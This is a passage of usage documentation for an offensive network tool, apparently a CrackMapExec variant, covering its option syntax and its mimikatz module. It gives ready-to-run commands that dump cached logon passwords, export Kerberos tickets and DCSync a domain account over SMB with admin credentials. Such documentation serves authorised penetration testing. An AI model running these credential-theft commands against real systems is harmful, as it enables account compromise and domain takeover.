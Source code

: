 ----------------------------------------------------------------------------------------------------
## Specifying Module Options
Module options are specified using -mo after the module name  
All options should be specified in the form KEY=VALUE  
When using several options, seperate with a space  
    i.e -mo KEY=VALUE KEY=VALUE KEY=VALUE  
```
~# cmx smb -M <module_name> -mo KEY=VALUE [KEY=VALUE] [KEY=VALUE]

cmx --verbose smb 192.168.1.1 -u username -p password -M mimikatz -mo COMMAND='privilege::debug sekurlsa::logonpasswords exit'
```

----------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------



# Module Commands Reference
----------------------------------------------------------------------------------------------------
## mimikatz      
Executes Invoke-Mimikatz.ps1 script.
This contains the full functionality of mimikatz.  
I'll try to keep this up-to-date with new releases  

If it isnt up-to-date you can recompile the Invoke-Mimikatz script yourself using the included Invoke-UpdateMimikatzScript
See that script itself for information on how-to  


| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      | 

**Options:**
```
For a full list of options see https://github.com/gentilkiwi/mimikatz/wiki
```
**Example Usages:**
```
~# cmx smb 10.10.33.121 -u Administrator -p AdminSuper\!23 -M mimikatz
```

*When using multiple commands, spaces are used as the delimeter.*
To issue commands with spaces in them, nest them inside quotes:
i.e to use `kerberos::list /export` becomes `privilege::debug "kerberos::list /export" exit`
```
~# cmx smb 10.10.33.123 -u agrande -p User\!23 -M mimikatz -mo COMMAND='privilege::debug "kerberos::list /export" exit'
```

DCSync a specific user:
```
~# cmx smb 10.10.33.123 -u Administrator -p AdminSuper\!23 -M mimikatz -mo COMMAND='privilege::debug "lsadump::dcsync /user:OCEAN\\mbellamy " exit'
```
